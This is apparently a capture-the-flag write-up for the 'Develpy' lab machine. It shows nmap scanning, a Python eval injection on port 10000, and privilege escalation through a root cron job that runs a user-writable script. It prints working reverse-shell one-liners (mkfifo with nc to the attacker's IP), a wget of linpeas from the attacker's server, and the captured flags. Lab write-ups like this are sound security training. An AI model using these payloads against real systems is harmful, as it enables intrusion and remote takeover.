 Develpy

------------------------------
Aaron Aguilar
03-02-2023
------------------------------

first i scan with nmap with this tag 
```
$sudo nmap -T5 -p- 10.10.252.225 -oN nmap_inital.txt | tee nmap.te

sudo nmap -sV -sC p 22,1000 10.10.252.225 -T5 -vvv

and i got this ports open

PORT      STATE SERVICE           REASON         VERSION
22/tcp    open  ssh               syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

10000/tcp open  snet-sensor-mgmt? syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing

```
port 22 and 10000 is open
checking on using netcat ip:10000 it shows that there is a python code injection vulnerability

```
nc 10.10.90.237 10000 

        Private 0days

 Please enther number of exploits to send??: 
 ─$ nc 10.10.90.237 10000

         Private 0days

  Please enther number of exploits to send??: a
 Traceback (most recent call last):
   File "./exploit.py", line 6, in <module>
     num_exploits = int(input(' Please enther number of exploits to send??: '))
   File "<string>", line 1, in <module>
 NameError: name 'a' is not defined

```
I checked for python command injection and found out about the eval() exploit,
on my attack machine I set up the nc listener and run the netcat code in the victim machine

```
victim machine
nc 10.10.90.237 10000

        Private 0days

 Please enther number of exploits to send??: eval('__import__("os").system("mkfifo /tmp/lol;nc 10.18.70.19 4444 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol")')

└─$ rlwrap nc -lnvp 4444            
listening on [any] 4444 ...
connect to [10.18.70.19] from (UNKNOWN) [10.10.90.237] 51004
/bin/sh: 0: can't access tty; job control turned off
$ whoami
king
$ ls
credentials.png
exploit.py
root.sh
run.sh
user.txt
$ ls /home
king
$ cat user.txt
cf85ff769cfaaa721758949bf870b019
$ 
```
before anything else I have to upgrade the shell since this is a dumbshell
```

python -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo;fg
export TERM=xterm
````
# 2. Root txt
Now I just need to escalate my priveleges
```
$ env
LANGUAGE=en_US:
SHLVL=1
SOCAT_PEERADDR=10.18.70.19
HOME=/home/king
SOCAT_PEERPORT=50878
SOCAT_SOCKADDR=10.10.90.237
SOCAT_VERSION=1.7.3.1
SOCAT_SOCKPORT=10000
LOGNAME=king
_=/root
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
LANG=en_US.UTF-8
SHELL=/bin/sh
PWD=/home/king
SOCAT_PID=1044
SOCAT_PPID=786

drwxr-xr-x 4 king king   4096 Aug 27  2019 .
drwxr-xr-x 3 root root   4096 Aug 25  2019 ..
-rw------- 1 root root   2929 Aug 27  2019 .bash_history
-rw-r--r-- 1 king king    220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 king king   3771 Aug 25  2019 .bashrc
drwx------ 2 king king   4096 Aug 25  2019 .cache
-rwxrwxrwx 1 king king 272113 Aug 27  2019 credentials.png
-rwxrwxrwx 1 king king    408 Aug 25  2019 exploit.py
drwxrwxr-x 2 king king   4096 Aug 25  2019 .nano
-rw-rw-r-- 1 king king      5 Mar  1 22:20 .pid
-rw-r--r-- 1 king king    655 Aug 25  2019 .profile
-rw-r--r-- 1 root root     32 Aug 25  2019 root.sh
-rw-rw-r-- 1 king king    139 Aug 25  2019 run.sh
-rw-r--r-- 1 king king      0 Aug 25  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 king king     33 Aug 27  2019 user.txt
-rw-r--r-- 1 root root    183 Aug 25  2019 .wget-hsts
```
I dont know what to do hahah so I used linpeas I hosted linpeas in my server to download in the victim machine
```
king@ubuntu:/dev/shm$ wget http://10.18.70.19/linpeas.sh
wget http://10.18.70.19/linpeas.sh
--2023-03-01 22:31:29--  http://10.18.70.19/linpeas.sh
Connecting to 10.18.70.19:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 828087 (809K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 808.68K   520KB/s    in 1.6s    

2023-03-01 22:31:31 (520 KB/s) - ‘linpeas.sh’ saved [828087/828087]

king@ubuntu:/dev/shm$ chmod +x linpeas.sh
chmod +x linpeas.sh
king@ubuntu:/dev/shm$ ./linpeas.sh
./linpeas.sh
```
this seems like a possible escalation vulnerability because it runs everyminute everyday
and is owned by king
```

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   king    cd /home/king/ && bash run.sh
*  *    * * *   root    cd /home/king/ && bash root.sh
*  *    * * *   root    cd /root/company && bash run.sh

````
since the root.sh file is in our home folder, and we do not have read/write access to it, we have to delete it and make a new file named root.sh and enter this code below to intercept the root 
```

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.70.19 4445 >/tmp/f




```
````

└─$ nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.18.70.19] from (UNKNOWN) [10.10.18.68] 36496
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls /root
company
root.txt
# cat /root/root.txt
9c37646777a53910a347f387dce025ec
#

```
